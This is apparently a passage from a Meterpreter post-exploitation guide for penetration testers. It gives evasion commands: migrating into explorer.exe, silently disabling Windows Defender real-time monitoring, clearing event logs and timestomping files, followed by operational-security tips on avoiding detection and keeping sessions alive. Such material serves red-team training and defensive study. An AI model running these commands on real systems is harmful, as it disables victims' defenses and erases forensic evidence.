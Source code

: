 ## Evasion Techniques

### Anti-Virus Evasion
```bash
# Migrate to whitelisted process
meterpreter > migrate -N explorer.exe

# Disable Windows Defender
meterpreter > execute -f powershell.exe -a "Set-MpPreference -DisableRealtimeMonitoring $true" -H
```

### Forensic Evasion
```bash
# Clear event logs
meterpreter > clearev

# Timestomp files
meterpreter > timestomp C:\\Windows\\System32\\calc.exe -v
meterpreter > timestomp C:\\Windows\\System32\\calc.exe -f C:\\Windows\\System32\\notepad.exe
```

## Best Practices

### Operational Security
1. **Migrate quickly** to stable processes
2. **Use HTTPS handlers** for encrypted communication
3. **Avoid detection** by limiting system changes
4. **Clean up artifacts** after operations
5. **Document all actions** for reporting

### Session Stability
1. **Choose stable migration targets**
2. **Set appropriate timeouts**
3. **Use multiple persistent handlers**
4. **Monitor session health**

### Performance Optimization
1. **Use staged payloads** for smaller initial footprint
2. **Compress large file transfers**
3. **Limit concurrent operations**
4. **Use appropriate transport mechanisms**

## Common Issues and Troubleshooting

### Session Drops
- **Cause**: Unstable process, network issues
- **Solution**: Migrate to stable process, use persistent handlers
